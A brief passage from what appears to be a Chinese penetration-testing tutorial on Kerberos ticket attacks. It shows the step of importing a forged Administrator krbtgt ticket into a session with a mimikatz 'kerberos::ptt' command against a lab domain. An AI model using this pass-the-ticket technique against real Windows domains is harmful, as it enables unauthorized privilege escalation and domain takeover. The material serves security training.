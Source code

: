 ![image-20230801160959106](assets/image-20230801160959106.png)

![image-20230801161120165](assets/image-20230801161120165.png)

### 2.2.5. 导入票据

然后在将票据导出，其实就是伪造票据。

```
mimikatz kerberos::ptt [0;bbd89]-2-0-60a00000-Administrator@krbtgt-0DAY.ORG.kirbi
```
